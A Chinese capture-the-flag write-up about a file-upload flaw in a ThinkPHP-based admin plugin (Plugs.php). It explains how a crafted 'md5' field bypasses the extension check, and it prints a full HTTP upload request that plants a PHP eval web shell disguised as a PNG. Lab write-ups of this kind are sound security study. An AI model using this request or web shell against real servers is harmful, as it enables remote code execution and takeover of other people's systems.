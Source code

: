[https://www.hacking8.com/bug-web/Thinkphp/Thinkphp-5.x-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/Thinkphp-5.0.10.html](https://www.hacking8.com/bug-web/Thinkphp/Thinkphp-5.x-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/Thinkphp-5.0.10.html)

![image-20230130143820051](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301301438307.png)

第二种是前台文件上传 getshell

/application/admin/controller/Plugs.php

![image-20230130143947493](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301301439612.png)

move 方法注释

![image-20230130144011645](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301301440680.png)

跟进

![image-20230130144137472](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301301441584.png)

跟进 buildSaveName 方法

![image-20230130144203306](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301301442423.png)

关键在那个 if 判断, 如果传入的 `$md5[1]` 也就是 `$savename` 不含 `.`的话, 则会手动加上上传时 filename 的后缀, 否则不做任何处理直接 return

这样我们控制 `$md5[1]` 为 `xxx.php` 就可以 getshell, 并且前面对后缀的验证是根据 filename 来的, 对于 `$md5` 没有任何影响, 也就绕过了限制

```
POST /html/index.php?s=admin/Plugs/upload HTTP/1.1
Host: 1bfe4913-52da-4571-aa59-3bca4bf51d44.node4.buuoj.cn:81
Content-Length: 2339
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryUa26ECeyNjKcbTPN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36 Edg/109.0.1518.70
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

------WebKitFormBoundaryUa26ECeyNjKcbTPN
Content-Disposition: form-data; name="file"; filename="2.png"
Content-Type: image/png

............
<?php eval($_REQUEST['a']); ?>
------WebKitFormBoundaryUa26ECeyNjKcbTPN
Content-Disposition: form-data; name="md5"

1234567812345678123456781234.php
------WebKitFormBoundaryUa26ECeyNjKcbTPN
Content-Disposition: form-data; name="token"

d6d4c55aac6d9512c17b1986501caa23
------WebKitFormBoundaryUa26ECeyNjKcbTPN
```
